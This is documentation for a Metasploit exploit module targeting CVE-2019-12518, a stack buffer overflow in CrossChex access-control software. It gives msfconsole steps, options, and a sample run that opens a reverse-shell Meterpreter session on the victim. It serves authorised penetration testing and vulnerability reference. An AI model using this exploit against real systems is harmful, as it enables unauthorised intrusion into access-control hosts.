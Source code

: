 ## Introduction

CrossChex (a personnel identity verification, access control, and time attendance management system compatible with Windows 7,8 & 10), uses UDP broadcasts to identify and connect with Access Control devices on a network. The code used to handle a response from an Access Control device is vulnerable to a Stack Buffer Overflow attack, tracked as CVE-2019-12518, and as such permits abritrary code execution.

The code used to overflow the Stack Buffer and code an attacker wishes to be executed as a result of the exploit are sent in a single UDP packet as a response to the CrossChex broadcast. As both the exploit and the payload must be contained inside a single UDP packet, an exploit has a maximum size of `8947 Characters`.    

This module exploits CVE-2019-12518 by listening for a CrossChex "new device" broadcast for a given number of seconds (`TIMEOUT`). It then responds with a UDP packet containing shellcode for both the Buffer Overflow exploit and the attacker's chosen payload. The `Space` payload option ensures no payload of too large a size is used to ensure successful explotation. If a broadcast is not detected within the given `TIMEOUT`, the module exits with a warning. 

## Verification Steps

1. Start `msfconsole`
2. `use windows/misc/crosschex_device_bof`
3. `set LHOST vboxnet0`
4. `run`
5. Open CrossChex
6. Navigate to Device > Add
7. Select `Search`
8. Verify payload executes correctly

## Options

1.  `TIMEOUT` Seconds module waits for broadcast, defaults to `1000`.
2.  `CHOST`. Address UDP packet response is sent from. Defaults to `0.0.0.0`.
3.  `CPORT`. Port UDP packet response is sent from. Defaults to `5050` as CrossChex expects communication from this port.

## Compatible Payloads

Any basic x86 windows payload.

## Payload Options
As above.

## Scenarios

```
msf5 exploit(windows/misc/crosschex_device_bof) > run

[*] Started reverse TCP handler on 192.168.56.1:4444
[*] CrossChex broadcast received, sending payload in response
[*] Payload sent
[*] Sending stage (180291 bytes) to 192.168.56.3
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.3:49160) at 2020-02-10 16:21:13 +0000

meterpreter > ls
Listing: C:\Program Files\Anviz\CrossChex Standard
==================================================
...



```

## References

1. <https://cvedetails.com/cve/CVE-2019-12518>
2. <https://www.0x90.zone/multiple/reverse/2019/11/28/Anviz-pwn.html>
3. <https://www.exploit-db.com/exploits/47734>